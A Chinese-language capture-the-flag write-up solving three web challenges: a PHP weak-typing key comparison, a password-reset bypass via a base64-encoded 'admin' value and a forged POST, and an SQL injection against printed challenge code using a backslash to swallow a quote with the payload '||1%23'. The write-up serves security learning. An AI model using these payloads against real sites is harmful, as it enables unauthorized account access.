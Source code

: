 **得到一个经验，审计一定要非常非常非常的细心和仔细**
开始就审题理解错误，后来自己调试了下，仔细查看之后，用PHP弱类型特性，**当0x开头的字符串和字符串比较，会转为同一类型进行比较**
```
url?key=0xccccccccc // 0xccccccccc == '54975581388'
```
<Br />

### 密码重置
提示很明显说改admin重置，url中也有一串明显的BASE64加密，那么直接改成admin并且加密
然后提交表单时候，页面中我的帐号改动需要修改input的readonly属性，或者直接构造POST请求包绕过
即可得到flag

<Br />

### SQL Injection
```php
<!--
#GOAL: login as admin,then get the flag;
error_reporting(0);
require 'db.inc.php';

function clean($str){
	if(get_magic_quotes_gpc()){
		$str=stripslashes($str);
	}
	return htmlentities($str, ENT_QUOTES);
}

$username = @clean((string)$_GET['username']);
$password = @clean((string)$_GET['password']);

$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''.$password.'\';';
$result=mysql_query($query);
if(!$result || mysql_num_rows($result) < 1){
	die('Invalid password!');
}

echo $flag;
-->
```
提示给的很明显了。。源代码也给自己，开始自己给绕进去了，后来看了别人的write up 恍然大悟
首先把`$query`给简单的折合一下就是

```php
$query="SELECT * FROM users WHERE name='$username' AND pass='$password'";
// 其实简化后就是这样，开始绕进去就是我以为\是在入库后转义，脑壳瓦特了
// 而且居然有源码情况下，居然懒得调试，哎..
```
其实就是在PHP拼接的时候，利用`\`吃掉单引号，然后在利用第二个参数的单引号，完成条件满足
```
url?username=\&password=||1%23
```

<Br />
